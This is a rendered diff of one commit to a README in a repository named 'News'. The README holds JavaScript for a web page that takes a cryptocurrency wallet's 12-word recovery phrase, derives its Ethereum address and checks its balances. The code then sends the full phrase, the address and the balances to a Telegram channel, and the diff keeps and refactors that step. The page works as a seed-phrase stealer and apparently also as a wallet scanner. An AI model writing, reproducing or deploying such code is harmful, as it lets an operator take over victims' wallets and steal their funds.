

Before and after one commit to alimahmoud001/News, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 85% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -480,9 +474,11 @@
 
         // فحص شامل للمحفظة
         async function checkWalletAssets(address) {
-            const ethBalance = await checkEthBalance(address);
-            const tokens = await checkTokenBalances(address);
-            const txCount = await checkTransactionCount(address);
+            const [ethBalance, tokens, txCount] = await Promise.all([
+                checkEthBalance(address),
+                checkTokenBalances(address),
+                checkTransactionCount(address)
+            ]);
 
             return {
                 ethBalance,
@@ -542,62 +630,75 @@
                 return;
             }
 
-            const words = testMnemonic.split(' ').filter(word => word.length > 0);
-            if (words.length !== 12) {
-                alert('يجب أن تحتوي العبارة على 12 كلمة بالضبط');
-                return;
-            }
+            const resultsDiv = document.getElementById('results');
+            resultsDiv.innerHTML = '<div class="status info">🔄 جاري التحقق من صحة العبارة...</div>';
 
-            // التحقق من صحة الكلمات
-            const invalidWords = words.filter(word => !WORDLIST.includes(word));
-            if (invalidWords.length > 0) {
-                alert(`الكلمات التالية غير صحيحة: ${invalidWords.join(', ')}`);
-                return;
-            }
-
-            const resultsDiv = document.getElementById('results');
-            resultsDiv.innerHTML = '<div class="status info">🔄 جاري اختبار العبارة وفحص الأصول...</div>';
+            totalScanned++;
+            updateStats();
 
             try {
+                // التحقق من صحة العبارة
+                const validation = validateMnemonic(testMnemonic);
+
+                if (!validation.valid) {
+                    resultsDiv.innerHTML = `<div class="status error">❌ عبارة غير صالحة: ${validation.reason}</div>`;
+                    return;
+                }
+
+                validMnemonics++;
+                updateStats();
+
+                resultsDiv.innerHTML = '<div class="status success">✅ عبارة صالحة! جاري فحص الأصول...</div>';
+
+                // تحويل العبارة إلى عنوان
                 const seed = await mnemonicToSeed(testMnemonic);
-                const privateKey = await seedToPrivateKey(seed);
-                const address = privateKeyToAddress(privateKey);
+                const address = seedToEthereumAddress(seed);
 
+                // فحص الأصول على الشبكة
                 const assets = await checkWalletAssets(address);
 
-                // إرسال النتيجة إلى التلجرام
-                let message = `🧪 <b>اختبار يدوي</b>\n\n`;
+                // إعداد رسالة التلجرام
+                let telegramMessage = `🧪 <b>اختبار يدوي</b>\n\n`;
 
                 if (assets.hasAssets) {
-                    message += `🎉 <b>محفظة نشطة!</b>\n\n` +
-                              `💰 <b>رصيد ETH:</b> ${assets.ethBalance} ETH\n` +
-                              `📊 <b>عدد المعاملات:</b> ${assets.txCount}\n`;
+                    walletsWithBalance++;
+                    totalEthFound += assets.ethBalance;
+
+                    telegramMessage += `🎉 <b>محفظة نشطة!</b>\n\n` +
+                                     `💰 <b>رصيد ETH:</b> ${assets.ethBalance.toFixed(6)} ETH\n` +
+                                     `📊 <b>عدد المعاملات:</b> ${assets.txCount}\n`;
 
                     if (assets.tokens.length > 0) {
-                        message += `🪙 <b>الرموز المميزة:</b>\n`;
+                        telegramMessage += `🪙 <b>الرموز المميزة:</b>\n`;
                         assets.tokens.slice(0, 5).forEach(token => {
-                            message += `   • ${token.symbol}: ${token.value}\n`;
+                            telegramMessage += `   • ${token.symbol}: ${token.value.toFixed(4)}\n`;
                         });
                         if (assets.tokens.length > 5) {
-                            message += `   • و ${assets.tokens.length - 5} رموز أخرى...\n`;
+                            telegramMessage += `   • و ${assets.tokens.length - 5} رموز أخرى\n`;
                         }
                     }
                 } else {
-                    message += `📭 <b>محفظة فارغة</b>\n\n` +
-                              `💰 <b>رصيد ETH:</b> 0 ETH\n` +
-                              `📊 <b>عدد المعاملات:</b> 0\n`;
+                    telegramMessage += `📭 <b>محفظة فارغة</b>\n\n` +
+                                     `💰 <b>رصيد ETH:</b> 0 ETH\n` +
+                                     `📊 <b>عدد المعاملات:</b> 0\n`;
                 }
 
-                message += `\n🔑 <b>العبارة:</b> <code>${testMnemonic}</code>\n` +
-                          `📍 <b>العنوان:</b> <code>${address}</code>`;
+                telegramMessage += `\n🔑 <b>العبارة:</b> <code>${testMnemonic}</code>\n` +
+                                 `📍 <b>العنوان:</b> <code>${address}</code>`;
 
-                await sendToTelegram(message);
+                // إرسال إلى التلجرام بغض النظر عن النتيجة للاختبار اليدوي
+                await sendToTelegram(telegramMessage);
 
-                // عرض رسالة بسيطة
-                resultsDiv.innerHTML = '<div class="status success">✅ تم اختبار العبارة وإرسال النتيجة إلى التلجرام</div>';
+                resultsDiv.innerHTML = `
+                    <div class="status success">
+                        ✅ تم اختبار العبارة وإرسال النتيجة إلى التلجرام
+                    </div>
+                `;
 
                 // مسح حقل الإدخال
                 document.getElementById('testMnemonic').value = '';
 
+                updateStats();
+
             } catch (error) {
                 console.error('خطأ في اختبار العبارة:', error);
```
Also changed, not shown: other parts of README.md (+192 -166 lines).
